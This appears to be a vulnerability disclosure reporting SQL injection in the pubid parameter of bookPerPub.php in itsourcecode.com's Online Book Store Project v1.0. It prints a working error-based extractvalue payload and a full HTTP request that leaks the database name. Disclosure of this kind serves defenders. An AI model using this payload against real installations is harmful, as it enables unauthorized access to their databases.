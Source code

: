 # Online Book Store Project v1.0 by itsourcecode.com has SQL injection
**Vul_Author:** Wenxun Wang

**vendors:** https://itsourcecode.com/free-projects/php-project/online-book-store-project-in-php-with-source-code/

**Vulnerability url:** /bookstore/bookPerPub.php?pubid=

**Vulnerability location:** /bookstore/bookPerPub.php


**[+] Payload:** /bookstore/bookPerPub.php?pubid=1'%20and%20(extractvalue('anything'%2cconcat('~'%2c(select%20database()))))%3b%23

​	Leak place : pubid

**Current database name:** bookstoredb

**Request package**：select book information by pubid

```
GET /bookstore/bookPerPub.php?pubid=1'%20and%20(extractvalue('anything'%2cconcat('~'%2c(select%20database()))))%3b%23 HTTP/1.1
Host: localhost
sec-ch-ua: "-Not.A/Brand";v="8", "Chromium";v="102"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bookstore/publisher_list.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=8it4g868ibt9g6r8ae4203tmkd
Connection: close
```

**SQL injection result**：line 12 database name is displayed.

![sql_injection](https://github.com/iknownt/bug_report/blob/main/vendors/itsourcecode.com/Online-Book-Store-Project/images/sql_injection1.png)


